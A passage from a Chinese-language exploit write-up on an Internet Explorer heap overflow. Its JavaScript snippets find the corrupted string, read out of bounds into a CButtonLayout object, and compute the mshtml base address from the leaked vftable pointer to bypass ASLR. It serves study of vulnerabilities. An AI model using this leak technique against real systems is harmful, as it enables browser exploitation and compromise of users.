 
之后遍历`arr`数组，长度大于`(0x100-6)/2`元素即为发生溢出位置：

<table border="0" cellpadding="0" cellspacing="0" class="syntaxhighlighter  python"><tbody><tr><td class="gutter">12345</td><td class="code"><code class="python keyword">for</code> <code class="python plain">( var i </code><code class="python keyword">=</code> <code class="python value">0</code><code class="python plain">; i &lt; </code><code class="python value">500</code><code class="python plain">; i</code><code class="python keyword">+</code><code class="python keyword">+</code> <code class="python plain">) </code><code class="python plain">{</code><code class="python spaces">&nbsp;&nbsp;</code><code class="python keyword">if</code> <code class="python plain">( arr[i].length &gt; (</code><code class="python value">0x100</code><code class="python keyword">-</code><code class="python value">6</code><code class="python plain">)</code><code class="python keyword">/</code><code class="python value">2</code> <code class="python plain">) </code><code class="python spaces">&nbsp;&nbsp;</code><code class="python plain">{ </code><code class="python keyword">/</code><code class="python keyword">/</code> <code class="python plain">overflowed</code><code class="python spaces">&nbsp;&nbsp;&nbsp;&nbsp;</code><code class="python plain">leak_index </code><code class="python keyword">=</code> <code class="python plain">i;</code></td></tr></tbody></table>

由于该元素长度已被更改为`0x10048`，那么可以越界读取其后`CButtonLayout`中内容：

<table border="0" cellpadding="0" cellspacing="0" class="syntaxhighlighter  python"><tbody><tr><td class="gutter">1</td><td class="code"><code class="python plain">var leak </code><code class="python keyword">=</code> <code class="python plain">arr[i].substring((</code><code class="python value">0x100</code><code class="python keyword">-</code><code class="python value">6</code><code class="python plain">)</code><code class="python keyword">/</code><code class="python value">2</code><code class="python keyword">+</code><code class="python plain">(</code><code class="python value">2</code><code class="python keyword">+</code><code class="python value">8</code><code class="python plain">)</code><code class="python keyword">/</code><code class="python value">2</code><code class="python plain">, (</code><code class="python value">0x100</code><code class="python keyword">-</code><code class="python value">6</code><code class="python plain">)</code><code class="python keyword">/</code><code class="python value">2</code><code class="python keyword">+</code><code class="python plain">(</code><code class="python value">2</code><code class="python keyword">+</code><code class="python value">8</code><code class="python keyword">+</code><code class="python value">4</code><code class="python plain">)</code><code class="python keyword">/</code><code class="python value">2</code><code class="python plain">);&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; </code><code class="python keyword">/</code><code class="python keyword">/</code><code class="python value">0xAE086377</code><code class="python plain">——금捷(</code><code class="python functions">Unicode</code><code class="python plain">)</code></td></tr></tbody></table>

![](upload/attach/202102/817966_QMBU9PUQ4V6QSTR.jpg)

 

转换成十六进制数，减去`CButtonLayout::vftable`相较于基址偏移便得到基址：

<table border="0" cellpadding="0" cellspacing="0" class="syntaxhighlighter  python"><tbody><tr><td class="gutter">12</td><td class="code"><code class="python plain">leak_addr </code><code class="python keyword">=</code> <code class="python plain">parseInt( leak.charCodeAt(</code><code class="python value">1</code><code class="python plain">).toString(</code><code class="python value">16</code><code class="python plain">) </code><code class="python keyword">+</code> <code class="python plain">leak.charCodeAt(</code><code class="python value">0</code><code class="python plain">).toString(</code><code class="python value">16</code><code class="python plain">), </code><code class="python value">16</code> <code class="python plain">);</code><code class="python plain">mshtmlbase </code><code class="python keyword">=</code> <code class="python plain">leak_addr </code><code class="python keyword">-</code> <code class="python plain">Number(</code><code class="python value">0x001582b8</code><code class="python plain">);</code></td></tr></tbody></table>
